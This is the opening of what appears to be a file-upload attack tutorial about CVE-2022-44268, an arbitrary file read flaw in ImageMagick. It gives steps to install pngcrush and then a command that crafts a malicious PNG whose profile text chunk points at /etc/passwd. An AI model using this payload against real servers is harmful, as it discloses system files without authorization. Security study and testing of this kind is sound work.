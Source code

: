 # Art of File Upload Attack

Identify a vulnerability in the web application's file upload functionality.

## CVE-2022-44268: ImageMagick (Arbitrary File Read)

#### Setup Payload

**1. Install pngcrush**

```
apt install pngcrush
```

**2. Download a legit image file with PNG extension**

If you are lazy to find it, you can get from this repo.

```
wget 
```

**3. Craft a malicious PNG**

```
pngcrush -text a "profile" "/etc/passwd" bad.png
```
